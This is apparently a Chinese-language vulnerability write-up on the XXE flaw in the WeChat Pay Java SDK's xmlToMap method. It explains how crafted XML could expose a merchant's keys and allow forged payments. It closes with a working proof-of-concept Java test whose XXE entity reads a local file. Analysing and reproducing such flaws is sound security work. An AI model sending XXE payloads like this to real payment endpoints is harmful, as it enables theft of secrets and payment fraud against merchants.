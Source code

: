 前一阵子非常火的微信支付的 XXE 漏洞当然不得不提，

漏洞描述：

微信支付提供了一个 api 接口，供商家接收异步支付结果，微信支付所用的java sdk在处理结果时可能触发一个XXE漏洞，攻击者可以向这个接口发送构造恶意payloads,获取商家服务器上的任何信息，一旦攻击者获得了敏感的数据 (md5-key and merchant-Id etc.)，他可能通过发送伪造的信息不用花钱就购买商家任意物品

我下载了 java 版本的 sdk 进行分析，这个 sdk 提供了一个 WXPayUtil 工具类，该类中实现了xmltoMap和maptoXml这两个方法，而这次的微信支付的xxe漏洞爆发点就在xmltoMap方法中

如图所示：
![](https://upload-images.jianshu.io/upload_images/15378294-3a4eb73c8ddd6a77.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
问题就出现在我横线划出来的那部分，也就是简化为下面的代码：

```
public static Map<String, String> xmlToMap(String strXML) throws Exception {
        try {
            Map<String, String> data = new HashMap<String, String>();
            DocumentBuilder documentBuilder = WXPayXmlUtil.newDocumentBuilder();
            InputStream stream = new ByteArrayInputStream(strXML.getBytes("UTF-8"));
            org.w3c.dom.Document doc = documentBuilder.parse(stream);
            ...
```
我们可以看到 当构建了 documentBuilder 以后就直接对传进来的 strXML 解析了，而不巧的是 strXML 是一处攻击者可控的参数，于是就出现了 XXE 漏洞，下面是我实验的步骤

首先我在 com 包下又新建了一个包，来写我们的测试代码，测试代码我命名为 test001.java

如图所示：

![](https://upload-images.jianshu.io/upload_images/15378294-0aa3206e91767918.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

test001.java
```
package com.test.test001;

import java.util.Map;

import static com.github.wxpay.sdk.WXPayUtil.xmlToMap;

public class test001 {
    public static void main(String args[]) throws Exception {

        String xmlStr ="<?xml version='1.0' encoding='utf-8'?>\r\n" +
                "<!DOCTYPE XDSEC [\r\n" +
                "<!ENTITY xxe SYSTEM 'file:///d:/1.txt'>]>\r\n" +
                "<XDSEC>\r\n"+
                "<XXE>&xxe;</XXE>\r\n" +
                "</XDSEC>";

        try{

            Map<String,String> test = xmlToMap(xmlStr);
            System.out.println(test);
        }catch (Exception e){
            e.printStackTrace();
        }

    }
}
```
